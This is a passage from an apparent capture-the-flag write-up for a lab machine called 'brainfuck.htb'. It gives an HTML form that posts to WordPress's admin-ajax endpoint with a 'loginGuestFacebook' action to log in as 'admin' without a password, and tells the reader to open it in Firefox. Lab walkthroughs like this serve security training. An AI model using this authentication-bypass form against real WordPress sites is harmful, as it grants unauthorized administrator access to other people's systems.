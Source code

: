 ![](images/exploit.png)

## Exploit
Copy the html form to a file `exploit.html` and change the website to `brainfuck.htb` and the username to `admin`
```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
  Username: <input type="text" name="username" value="admin">
  <input type="hidden" name="email" value="sth">
  <input type="hidden" name="action" value="loginGuestFacebook">
  <input type="submit" value="Login">
</form>
```

now either drag and drop the file in firefox or use `firefox exploit.html` command to open the file in firefox   

![](images/exploitHTML.png)

